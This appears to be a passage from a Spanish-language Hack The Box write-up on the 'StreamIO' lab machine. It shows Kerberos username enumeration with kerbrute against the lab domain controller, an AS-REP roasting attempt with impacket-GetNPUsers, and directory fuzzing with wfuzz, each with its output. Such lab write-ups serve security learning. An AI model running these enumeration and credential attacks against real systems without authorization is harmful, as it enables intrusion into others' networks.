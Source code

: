 
- Encontramos varios usuarios en la página `about.php`, creamos una lista de usuarios e intentamos por el puerto 88 ceonsguir
al menos usuarios válidos. No conseguimos ninguno, mas que un tal "martin" a partir de un ataque por diccionario.
![](/assets/images/htb-streamio/streamio4.png)


```bash
└─$ echo -e "oliver\nbarry\nsamantha" > users.txt

└─$ kerbrute userenum --dc 10.10.11.158 -d streamio.htb users.txt | grep "[+]"
#nada

└─$ kerbrute userenum --dc 10.10.11.158 -d streamio.htb /usr/share/seclists/Usernames/Names/names.txt | grep "[+]"
2024/02/21 11:39:15 >  [+] VALID USERNAME:	martin@streamio.htb

└─$ impacket-GetNPUsers streamio.htb/martin -dc-ip 10.10.11.158 -no-pass
[*] Getting TGT for martin
[-] User martin doesnt have UF_DONT_REQUIRE_PREAUTH set
```

Realizamos fuzzing sobre la web principal

```bash
└─$ wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://streamio.htb/FUZZ.php | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload                                               
000000012:   200        205 L    430 W      6434 Ch     "contact"                                             
000000013:   200        230 L    571 W      7825 Ch     "about"                                               
000000002:   200        394 L    915 W      13497 Ch    "index"                                               
000000040:   200        110 L    269 W      4145 Ch     "login"                                               
000000052:   200        120 L    291 W      4500 Ch     "register"                                            
```